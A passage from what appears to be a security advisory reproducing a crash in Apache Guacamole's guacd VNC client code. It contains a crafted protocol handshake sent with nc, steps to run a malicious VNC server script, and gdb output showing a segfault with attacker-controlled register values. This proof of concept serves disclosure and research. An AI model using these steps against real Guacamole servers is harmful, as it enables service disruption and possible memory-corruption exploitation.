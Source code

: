 In another terminal within the container, start the malicious VNC server
listening on port `1234`:

```sh
python3 vnc-server.py 1234
```

Finally, the client connection can be triggered by connecting to `guacd` with
the VNC protocol selected and the target host as `0.0.0.0:1234`:

```sh
echo -n '6.select,3.vnc;4.size,4.1920,4.1080,3.192;5.audio,8.audio/L8,9.audio/L16;5.video;5.image,10.image/jpeg,9.image/png,10.image/webp;8.timezone,19.Australia/Melbourne;4.name,4.test;7.connect,13.VERSION_1_5_0,7.0.0.0.0,4.1234,0.,0.,0.,0.,0.,0.,0.,0.,0.,0.,0.,0.,0.,0.,0.,0.,0.,0.,0.,0.,0.,0.,0.,0.,0.,0.,0.;' | nc localhost 4822
```

Some threads will be created and a new process will be spawned (processes can
be seen with `info inferiors`). To get to the crash, continue the main process
by pressing `Ctrl+C` and then entering the commands:

```
inferior 1
continue
```

After the connection ID is displayed, press `Ctrl+C` again and continue the
forked process:

```
inferior 2
continue
```

After a short time, this will show a crash on the line:

```c
*(buffer_current++) = (red  << 16) | (green << 8) | blue;
```

due to an attempt to dereference unmapped memory.

```
Thread 2.4 "guacd" received signal SIGSEGV, Segmentation fault.
[Switching to Thread 0x7f3dbdc5e640 (LWP 64)]
0x00007f3dbf496eeb in guac_vnc_update (client=0x7f3dbd406010, x=0x0, y=0x0, w=0xf43d, h=0x4315) at display.c:120
120                     *(buffer_current++) = (red  << 16) | (green << 8) | blue;
[ Legend: Modified register | Code | Heap | Stack | String ]
─────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x4100
$rbx   : 0x100
$rcx   : 0x8
$rdx   : 0x0
$rsp   : 0x00007f3dbdc5d9e0  →  0x0000000000000000
$rbp   : 0x0
$rsi   : 0x41414141
$rdi   : 0x414141
$rip   : 0x00007f3dbf496eeb  →  <guac_vnc_update+571> mov DWORD PTR [r9-0x4], edi
$r8    : 0x41
$r9    : 0x00007f3db002c004  →  0x0000000000000000
$r10   : 0x00007f39b00a44f4  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$r11   : 0x100
$r12   : 0x00007f3db0043c14  →  0x0000000000000000
$r13   : 0x4
$r14   : 0x4
$r15   : 0x100
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
```